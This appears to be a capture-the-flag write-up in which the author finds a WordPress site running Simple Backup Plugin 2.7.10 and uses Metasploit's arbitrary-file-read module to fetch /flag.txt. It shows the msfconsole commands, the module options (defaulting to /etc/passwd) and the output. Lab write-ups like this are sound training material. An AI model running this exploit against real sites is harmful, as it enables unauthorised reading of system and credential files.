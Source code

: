 Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

If we go to `http://94.237.62.195:39921`, we see a WordPress website and some description of a "Simple Backup Plugin 2.7.10".
```bash
Simple Backup Plugin 2.7.10 for WordPress can backup and download your WordPress website and MySQL
Database. Plugin can also optionally perform many common optimizations to wordpress and MySQL
Database before backup. This plugin will create a directory in the root of your WordPress directory
called ‘simple-backup’ to store the backup files. If the plugin can not...
```

We then go to Metasploit to search for an exploit associated with this Simple Backup Plugin.
```bash
msfconsole
msf6 > search exploit simple backup
```
```bash
Matching Modules
================

   #  Name                         Rank    Check  Description
   -  ----                         ----    -----  -----------
   0  wp_simple_backup_file_read   normal  No     WordPress Simple Backup File Read Vulnerability
```
```bash
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options
```
```bash
Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILEPATH   /etc/passwd      yes       The path to the file to read
   RHOSTS                      yes       The target host(s)
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host
```
```bash
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.62.195
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 39921
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > check
[-] This module does not support check.
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit
[+] File saved in: ~/.msf4/loot/20240331192933_default_94.237.62.195_simplebackup.tra_648574.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
